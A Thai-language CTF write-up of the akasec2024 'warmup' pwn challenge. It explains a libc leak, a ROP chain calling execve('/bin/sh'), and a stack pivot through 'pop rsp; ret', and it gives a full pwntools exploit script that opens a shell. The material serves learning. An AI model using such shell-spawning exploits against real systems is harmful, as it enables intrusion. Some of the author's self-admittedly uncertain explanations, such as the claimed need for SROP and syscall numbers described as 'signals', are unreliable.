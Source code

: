 # Solution

-----

 สวัสดีครับผม Sudrit วันนี้จะมาลองเขียน writeup เกี่ยวกับ pwn จากงานแข่ง ctf  ที่ชื่อว่า akasec2024 กันครับ ต้องบอกก่อนเลยว่าผมไม่ค่อยรู้เรื่องพวกนี้เท่าไหร่ แต่จะลองมั่วๆดูนะครับ lol แล้วก็ผมไม่ได้ทำข้อนี้ในระหว่างแข่งครับ แต่มาทำหลังจากแข่งเสร็จแล้วนั่งอ่าน writeup คนอื่นรวมถึงสอบถามพี่ Jusmistic มาครับ เลยลองมาเขียนๆดูเพราะทบทวนตัวเอง แต่ไม่น่าจะแชร์ให้ใครดู 5555



โดยโจทย์ข้อนี้มีชื่อว่า warmup ซึ่งผมคิดว่ามันไม่ warmup เลยยยย มันยากนะเนี้ย

เริ่มต้นที่โจทย์จะให้ไฟล์มาสองไฟล์คือ Binary File และ Dockerfile ซึ่งเราสามารถรันโจทย์ผ่าน docker ได้โดยมี env ต่างๆ เดียวกันกับโจทย์ในระบบทำให้เราสามารถดึงไฟล์ libc ที่โปรแกรมใช้มาได้โดยใช้ ldd จากนั้นทำการ patch ไฟล์ binary กับ libc ที่ได้มาและเริ่มทำการ decompile ตัวโจทย์กันเลยครับ โดยได้โค้ดตามนี้

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[64]; // [rsp+0h] [rbp-40h] BYREF

  helper();
  printf("%p\n", &puts);
  printf("name>> ");
  fgets(name, 512, stdin);
  printf("alright>> ");
  fgets(s, 88, stdin);
  puts("okey");
  return 0;
}
```

พบว่าตัวโปรแกรมมีการ leak ตัว address ของ puts มาให้ซึ่งทำให้เราสามารถหา base address  ของ libc ได้นะครับโค้ดประมาณนี้มั้ง ปล เพื่อความง่ายใน local ก็ปิด aslr ด้วยนะครับ

```python
leaked_puts = int(r.recv(14),16)
libc.address = leaked_puts - libc.sym.puts
log.info(hex(libc.address)) #0x7ffff7dab000
```

แล้วก็สังเกตุว่าตัวโปรแกรมจะมีการรับค่าจำนวนสองครั้งผ่าน fgets โดยสามารถใส่ใน name ได้จำนวน 512 bytes และ s อีก 88 bytes เป็นจำนวนสูงสุดที่ถูกจองไว้มั้งครับ โดยเราสามารถสังเกตุได้ว่าที่ตัวแปร s เราสามารถใส่ได้จำนวน 64+8 bytes จึงถึงจุดที่เรากำหนด rip ได้ครับ

ซึ่งตอนแรกผมทำแบบ ROP ทั่วไปที่ call system เลยครับแล้วมันไม่ได้ เพราะอะไรไม่รู้ 5555 แต่เหมือนมีคนอธิบายในดิสคอร์ดนะครับแต่ผมก็ไม่ค่อยเข้าใจใครรู้มาอธิบายผมด้วย ซึ่งการทำแบบเดิมๆนั้นมันทำไม่ได้ครับ มันเลยต้องใช้ท่าใหม่โดยท่านี้เรียกว่า Stack Pivot นะครับ หากใครอยากรู้ว่าคืออะไรไปหาอ่านได้ที่นี่เลยครับ [Stack Pivoting | Binary Exploitation (gitbook.io)](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting)

ซึ่งเงื่อนไขในการใช้งานได้นะครับ

1. มี input ที่เราใส่แล้วทำการ hijack control flow ได้ ในที่นี้ก็คือ s

2. มี input ที่เราใส่ได้เย๊อะๆ ในที่นี้ก็คือ name ซึ่งมี address คือ `0x404060`

3. มี gadget ที่เด็ดๆนะครับ `pop rsp; ret` ให้เราใช้งานดูได้จาก ROPgadget เลย

โดยเราจะเขียน rop chain ลงใน name นะครับโดยในกรณีนี้เหมือนที่ผมได้บอกตอนแรกครับคือมันใช้ system ไม่ได้เพราะไรไม่รู้ ผมเลยไปอ่านๆของคนอื่นมาเขาบอกว่า ต้องใช้ SigreturnFrame หรือก็คือการทำ SROP ครับ โดยใช้ syscall เป็นตัวหลักในการเรียกใช้ function ต่างๆ โดย signal ซึ่งในที่นี้เราจะเรียกใช้ `execve` โดยการเรียกใช้เราต้องเซทค่า register ตามที่กำหนดในเว็บนี้ครับ [Chromium OS Docs - Linux System Call Table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md) จากนั้นเราก็ลองไล่หาดูนะครับ จะได้ประมาณนี้ 

| arch   | syscall NR | return | arg0                  | arg1 | arg2 |
| ------ | ---------- | ------ | --------------------- | ---- | ---- |
| x86_64 | rax        | rax    | rdi                   | rsi  | rdx  |
|        | 0x3b       | 0x3b   | address of "/bin/sh" | 0x0  | 0x0  |

แล้วเราก็ใช้ข้อมูลนี้มาเขียน rop chain ครับแล้วก็ทำการส่งเข้าตัวแปร name จะได้ประมาณนี้

```python
rop_chain = ROP(libc)
rop_chain.rdi = next(libc.search(b'/bin/sh\x00')) #argument 1
rop_chain.rsi = 0 #argument 2
rop_chain.rax = 0x3b #signal ของ execve ในการใช้ syscall 
rop_chain.raw(rop_chain.find_gadget(["syscall"])[0]) #set ตัว rip
r.sendlineafter(b'name>>',rop_chain.chain())
```

ต่อไปจะเป็นอะไรที่สำคัญนะครับแล้วผมก็ค่อนข้างจะงง 5555555

คือเราจะใช้ตัว `pop rsp; ret` ให้เป็นประโยชน์นะครับ โดยเราจะ exploit ส่ง payload ผ่าน s แล้วให้ execute ตัว rop chain ของเราที่ address ของ name โดยจะเห็นว่า rsp จะเป็นตัวที่อยู่ด้านบนสุดของ stack ในตอนนี้ซึ่งหากเรา ret ไปที่ gadget  ดังกล่าวจะทำให้ มีการ pop rsp ออกมาและถูกแทนที่ด้านบนสุดของ stack กลายเป็น address ของตัว name ที่เราได้ใส่ rop chain อัดเข้าไปข้างใน ดูได้จากสองรูปข้างล่างนะครับ พอเข้าสู่ rop chain แล้วก็รันตามกระบวนการเลยครับทำให้เราสามารถเข้าถึงเครื่องของโจทย์และได้รับ flag.txt

<img title="" src="./pic/2024-06-13-00-47-50-image.png" alt="" width="430" data-align="center">

<img title="" src="./pic/2024-06-13-00-49-00-image.png" alt="" width="426" data-align="center">

หากนำมาเขียน exploit จะได้ประมาณนี้ครับ

```python
#!/usr/bin/env python3

from pwn import *
from pwn import p64

exe = ELF("./warmup_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.39.so")

context.binary = exe
#context.log_level = "DEBUG"
context.terminal = ["xterm", "-e"]
context(os='linux', arch='amd64', log_level='debug')

def conn():
    if args.LOCAL:
        r = process([exe.path])
        gdbscript = """
        b *0x40124f
        b *0x40118e
        c
        """
        #gdb.attach(r,gdbscript=gdbscript)
    else:
        r = remote("addr", 1337) #เซิฟปิดไปละทำไม่ทัน TwT

    return r


def main():
    r = conn()
    leaked_puts = int(r.recv(14),16)
    libc.address = leaked_puts - libc.sym.puts
    log.info(hex(libc.address)) #0x7ffff7dab000
    
    rop_chain = ROP(libc)
    rop_chain.rdi = next(libc.search(b'/bin/sh\x00')) #argument 1
    rop_chain.rsi = 0 #argument 2
    rop_chain.rax = 0x3b #signal ของ execve ในการใช้ syscall 
    rop_chain.raw(rop_chain.find_gadget(["syscall"])[0]) #set ตัว rip
    r.sendlineafter(b'name>>',rop_chain.chain())
    
    rop_elf = ROP(exe)
    pop_rsp = rop_elf.find_gadget(["pop rsp","ret"])[0]
            
    payload = b'A'*64 + p64(0) + p64(pop_rsp) + p64(0x404060)
    r.sendlineafter(b'alright>>',payload)

    r.interactive()

if __name__ == "__main__":
    main()


```

โดยจากที่กล่าวมานี่ก็คือเทคนิค stack pivot นั่นเองครับที่เป็นการแก้ค่า rsp ให้เป็นค่าที่ของ address ที่เราต้องการแทน ที่อ่านๆมาเขาบอกว่าเป็นการ fake location อะไรซักอย่างบน stack มั้งครับ ผมก็ไม่แน่ใจ แล้วก็อีกอย่างคือไม่ต้อง code คล้ายๆผมก็ได้ครับ ผมเห็นคนอื่นเขาใช้ SigreturnFrame() ทำเลยก็ดูเท่ดีครับ ลองไปปรับๆใช้กันดู
